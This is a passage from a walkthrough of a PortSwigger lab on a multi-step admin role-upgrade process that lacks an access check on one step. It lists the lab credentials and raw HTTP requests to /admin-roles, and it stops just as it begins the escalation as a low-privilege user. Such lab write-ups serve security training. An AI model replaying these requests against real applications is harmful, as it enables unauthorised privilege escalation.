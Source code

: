 Lab URL: https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step

**Objective**

Familiarized yourself with the admin panel function to promote the user's role, After that promote the low-privilege user to the administrator using his account.

**Credentials**
```
administrator:admin
wiener:peter
```

**Solution**

We can login to the admin account using `administrator` credentials. After successful login, we can visit the `/admin` endpoint in which we have the privilege to either upgrade or downgrade the user to admin or normal user.

The upgrade request sends the POST request to the `/admin-roles` endpoint with the following request 

```
POST /admin-roles HTTP/2
Host: 0a5400ae030f3fc180d8eeea005a00de.web-security-academy.net
Cookie: session=6SJbvhBVHSsigOFwZrgHEEWbGsiD1Qpl
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=wiener&action=upgrade
```

After that, they asked for confirmation whether to proceed to upgrade or not. If yes then they send the following request.

```
POST /admin-roles HTTP/2
Host: 0a5400ae030f3fc180d8eeea005a00de.web-security-academy.net
Cookie: session=6SJbvhBVHSsigOFwZrgHEEWbGsiD1Qpl
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36

action=upgrade&confirmed=true&username=wiener
```

These two requests are made by the admin to upgrade any users, the same steps are for downgrade also.

Now login using `wiener` users using his credentials and try to send an upgrade request to the `/admin-roles` endpoint to upgrade him like the following.
